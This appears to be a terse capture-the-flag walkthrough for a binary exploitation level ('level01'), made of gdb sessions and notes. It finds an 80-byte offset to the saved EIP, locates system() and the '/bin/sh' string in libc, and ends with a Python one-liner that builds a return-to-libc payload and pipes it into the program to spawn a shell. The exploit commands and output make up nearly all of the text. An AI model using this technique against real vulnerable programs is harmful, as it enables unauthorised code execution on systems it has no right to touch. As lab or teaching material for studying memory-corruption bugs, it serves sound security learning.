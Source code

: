 b *main + 169
run
dat_will
AAAAAAAA
i f
Stack level 0, frame at 0xffffd720:
 eip = 0x8048579 in main; saved eip 0xf7e45513
 Arglist at 0xffffd718, args: 
 Locals at 0xffffd718, Previous frame's sp is 0xffffd720
 Saved registers:
  ebx at 0xffffd710, ebp at 0xffffd718, edi at 0xffffd714, eip at 0xffffd71c
(gdb) i r
eax            0xffffd6cc       -10548

0xffffd71c - 0xffffd6cc => 0x50 => 80
offset buffer/EIP 80 oct

system:
p system
$1 = {text variable, no debug info} 0xf7e6aed0 system


method: https://stackoverflow.com/questions/6637448/how-to-find-the-address-of-a-string-in-memory-using-gdb?rq=1
(gdb) b *main
Breakpoint 1 at 0x80484d0
(gdb) r
Starting program: /home/users/level01/level01

Breakpoint 1, 0x080484d0 in main ()
(gdb) info proc map
process 1815
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
         0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fda000 0xf7fdb000     0x1000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2b000,0xf7e2c000,"/bin/sh"
Pattern not found.
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.


SHELL=/bin/sh
(python -c "print 'dat_wil\n' + 'A'*80 + '\xd0\xae\xe6\xf7' + 'DUMM' + '\xec\x97\xf8\xf7'";cat) | ./level01